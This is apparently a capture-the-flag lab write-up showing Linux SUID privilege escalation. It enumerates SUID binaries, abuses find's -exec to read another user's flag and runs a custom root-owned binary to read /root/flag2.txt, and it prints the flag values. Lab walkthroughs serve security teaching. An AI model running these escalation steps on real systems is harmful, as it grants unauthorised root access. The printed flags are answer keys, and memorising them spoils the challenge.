 - Find and run a file as *igor*. Read the file /home/igor/flag1.txt

  **Solution:**

  ~~~bash
  holly@ip-10-10-146-121:~$ find / -user igor -perm -4000 2>/dev/null
  /usr/bin/find
  /usr/bin/nmap
  holly@ip-10-10-146-121:~$ touch aaa
  holly@ip-10-10-146-121:~$ find aaa -exec cat /home/igor/flag1.txt \;
  THM{d3f0708bdd9accda7f937d013eaf2cd8}
  ~~~

- Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

  **Solution:**

  ~~~bash
  holly@ip-10-10-146-121:~$ find / -user root -perm -4000 2>/dev/null
  /bin/ping
  /bin/umount
  /bin/ping6
  /bin/su
  /bin/fusermount
  /bin/mount
  /snap/core/7396/bin/mount
  /snap/core/7396/bin/ping
  /snap/core/7396/bin/ping6
  /snap/core/7396/bin/su
  /snap/core/7396/bin/umount
  /snap/core/7396/usr/bin/chfn
  /snap/core/7396/usr/bin/chsh
  /snap/core/7396/usr/bin/gpasswd
  /snap/core/7396/usr/bin/newgrp
  /snap/core/7396/usr/bin/passwd
  /snap/core/7396/usr/bin/sudo
  /snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core/7396/usr/lib/openssh/ssh-keysign
  /snap/core/7396/usr/lib/snapd/snap-confine
  /snap/core/7396/usr/sbin/pppd
  /usr/bin/system-control <--
  /usr/bin/newuidmap
  /usr/bin/passwd
  /usr/bin/newgrp
  /usr/bin/sudo
  /usr/bin/chsh
  /usr/bin/chfn
  /usr/bin/pkexec
  /usr/bin/gpasswd
  /usr/bin/newgidmap
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/openssh/ssh-keysign
  /usr/lib/snapd/snap-confine
  /usr/lib/eject/dmcrypt-get-device
  holly@ip-10-10-146-121:~$ system-control
  
  ===== System Control Binary =====
  
  Enter system command: cat /root/flag2.txt
  THM{8c8211826239d849fa8d6df03749c3a2}
  ~~~

---